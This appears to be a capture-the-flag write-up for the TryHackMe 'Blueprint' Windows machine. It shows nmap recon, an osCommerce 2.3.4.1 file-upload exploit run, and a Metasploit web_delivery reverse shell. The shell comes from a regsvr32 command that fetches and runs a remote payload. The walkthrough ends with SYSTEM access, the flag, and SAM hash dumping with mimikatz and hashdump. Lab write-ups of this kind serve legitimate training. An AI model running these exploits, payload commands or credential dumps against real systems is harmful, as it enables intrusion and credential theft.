

| Link | Level | Creator |
|------|-------|---------|
| [Here](https://tryhackme.com/room/)  | Medium  |  [user](https://tryhackme.com/p/)  |

<!--
description : "Maquina de nivel medio en TryHackMe."

| Link | Nivel | Creador |
|------|-------|---------|
| [Aquí](https://tryhackme.com/room/)  | Medio  |  [user](https://tryhackme.com/p/)  |

## Reconocimiento
## Acceso inicial - Usuario


¡Y hemos rooteado la máquina!

Eso es todo de mi parte, ¡espero que lo encuentre útil!
-->

## Reconn

```bash
╰─ lanfran@parrot ❯ map 10.10.17.115                                                                                               ─╯
[sudo] password for lanfran: 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-09 12:02 CEST
Stats: 0:01:44 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 53.85% done; ETC: 12:05 (0:00:49 remaining)
Nmap scan report for 10.10.17.115
Host is up (0.28s latency).
Not shown: 987 closed ports
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: 404 - File or directory not found.
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
443/tcp   open  ssl/http     Apache httpd 2.4.23 (OpenSSL/1.0.2h PHP/5.6.28)
|_http-server-header: Apache/2.4.23 (Win32) OpenSSL/1.0.2h PHP/5.6.28
|_http-title: Index of /
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
445/tcp   open  microsoft-ds Windows 7 Home Basic 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3306/tcp  open  mysql        MariaDB (unauthorized)
8080/tcp  open  http         Apache httpd 2.4.23 (OpenSSL/1.0.2h PHP/5.6.28)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.23 (Win32) OpenSSL/1.0.2h PHP/5.6.28
|_http-title: Index of /
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49158/tcp open  msrpc        Microsoft Windows RPC
49159/tcp open  msrpc        Microsoft Windows RPC
49160/tcp open  msrpc        Microsoft Windows RPC
Service Info: Hosts: www.example.com, BLUEPRINT, localhost; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -17m57s, deviation: 34m37s, median: 2m01s
|_nbstat: NetBIOS name: BLUEPRINT, NetBIOS user: <unknown>, NetBIOS MAC: 02:5b:ac:b6:9d:0d (unknown)
| smb-os-discovery: 
|   OS: Windows 7 Home Basic 7601 Service Pack 1 (Windows 7 Home Basic 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1
|   Computer name: BLUEPRINT
|   NetBIOS computer name: BLUEPRINT\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2021-07-09T11:06:53+01:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-07-09T10:06:52
|_  start_date: 2021-07-09T10:02:29

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 123.09 seconds
```
Going to the webpage on 8080 port, we find a folder named `/oscommerce-2.3.4/` so maybe we can exploit this...

Let's use `searchsploit` to search for exploits...

```bash
╰─ lanfran@parrot ❯ searchsploit osCommerce 2.3.4.1                                                                                ─╯
---------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                      |  Path
---------------------------------------------------------------------------------------------------- ---------------------------------
osCommerce 2.3.4.1 - 'currency' SQL Injection                                                       | php/webapps/46328.txt
osCommerce 2.3.4.1 - 'products_id' SQL Injection                                                    | php/webapps/46329.txt
osCommerce 2.3.4.1 - 'reviews_id' SQL Injection                                                     | php/webapps/46330.txt
osCommerce 2.3.4.1 - 'title' Persistent Cross-Site Scripting                                        | php/webapps/49103.txt
osCommerce 2.3.4.1 - Arbitrary File Upload                                                          | php/webapps/43191.py
osCommerce 2.3.4.1 - Remote Code Execution                                                          | php/webapps/44374.py
---------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
╰─ lanfran@parrot ❯ searchsploit -m 43191                                                                                          ─╯
  Exploit: osCommerce 2.3.4.1 - Arbitrary File Upload
      URL: https://www.exploit-db.com/exploits/43191
     Path: /usr/share/exploitdb/exploits/php/webapps/43191.py
File Type: ASCII text, with CRLF line terminators

Copied to: /home/lanfran/THM/blueprint/43191.py
```

Great! We downloaded the exploit for Arbitrary File Upload

## Foothold - User

Going to `http://10.10.17.115:8080/oscommerce-2.3.4/catalog/install/install.php` 

We can create a new installation, i used the following credentials:



After waiting a while, I used the credentials `admin:password` to configure the server.

```bash
╰─ lanfran@parrot ❯ python 43191.py -f shell_online.php -u http://10.10.17.115:8080/oscommerce-2.3.4 --auth=admin:password            ─╯
[+] Authentication successful
[+] Successfully prepared the exploit and created a new newsletter with nID 1
[+] Successfully locked the newsletter. Now attempting to upload..
[*] Now trying to verify that the file shell_online.php uploaded..
[+] Got a HTTP 200 Reply for the uploaded file!
[+] The uploaded file should now be available at http://10.10.17.115:8080/oscommerce-2.3.4/catalog/admin/shell_online.php
```

Great! Let's use `metasploit` to get a reverse shell.

```bash
msf6 > use multi/script/web_delivery
[*] Using configured payload python/meterpreter/reverse_tcp
msf6 exploit(multi/script/web_delivery) > set LHOST tun0
LHOST => tun0
msf6 exploit(multi/script/web_delivery) > set SERVHOST 10.10.17.115
SERVHOST => 10.10.17.115
msf6 exploit(multi/script/web_delivery) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/script/web_delivery) > set target 3
target => 3
msf6 exploit(multi/script/web_delivery) > run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 10.9.1.222:4444 
msf6 exploit(multi/script/web_delivery) > [*] Using URL: http://0.0.0.0:8080/bCkvAgou9kpSIQ
[*] Local IP: http://192.168.1.254:8080/bCkvAgou9kpSIQ
[*] Server started.
[*] Run the following command on the target machine:
regsvr32 /s /n /u /i:http://10.9.1.222:8080/bCkvAgou9kpSIQ.sct scrobj.dll
[*] 10.10.17.115     web_delivery - Handling .sct Request
[*] 10.10.17.115     web_delivery - Delivering Payload (1900 bytes)
[*] Sending stage (175174 bytes) to 10.10.17.115
[*] Meterpreter session 1 opened (10.9.1.222:4444 -> 10.10.17.115:49441) at 2021-07-09 12:34:45 +0200

msf6 exploit(multi/script/web_delivery) > sessions -l

Active sessions
===============

  Id  Name  Type                     Information                      Connection
  --  ----  ----                     -----------                      ----------
  1         meterpreter x86/windows  NT AUTHORITY\SYSTEM @ BLUEPRINT  10.9.1.222:4444 -> 10.10.17.115:49441 (10.10.17.115)
```
Woohoo!!! We got a shell with `NT AUTHORITY\SYSTEM`!!

It's max privileged user on Windows.

So let's create a `shell` to read our flag.

```bash
meterpreter > shell
Process 4748 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\xampp\htdocs\oscommerce-2.3.4\catalog\admin>cd C:\Users\Administrator\Desktop
cd C:\Users\Administrator\Desktop

C:\Users\Administrator\Desktop>type root.txt.txt
type root.txt.txt
THM{[REDACTED]}
```

## "Lab" user NTML hash decrypted

To dump the hashes you can use `kiwi`, ot `hashdump`

- With kiwi:
```bash
meterpreter > load kiwi
Loading extension kiwi...
  .#####.   mimikatz 2.2.0 20191125 (x86/windows)
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'        Vincent LE TOUX            ( vincent.letoux@gmail.com )
  '#####'         > http://pingcastle.com / http://mysmartlogon.com  ***/

Success.

meterpreter > lsa_dump_sam 
[+] Running as SYSTEM
[*] Dumping SAM
Domain : BLUEPRINT
SysKey : 147a48de4a9815d2aa479598592b086f
Local SID : S-1-5-21-3130159037-241736515-3168549210

SAMKey : 3700ddba8f7165462130a4441ef47500

RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: [REDACTED]

RID  : 000001f5 (501)
User : Guest

RID  : 000003e8 (1000)
User : Lab
  Hash NTLM: [REDACTED]
```
- With hashdump
```bash
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:[REDACTED]:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:[REDACTED]:::
Lab:1000:aad3b435b51404eeaad3b435b51404ee:[REDACTED]:::
```
And crack the hash with [crackstation](https://crackstation.net/)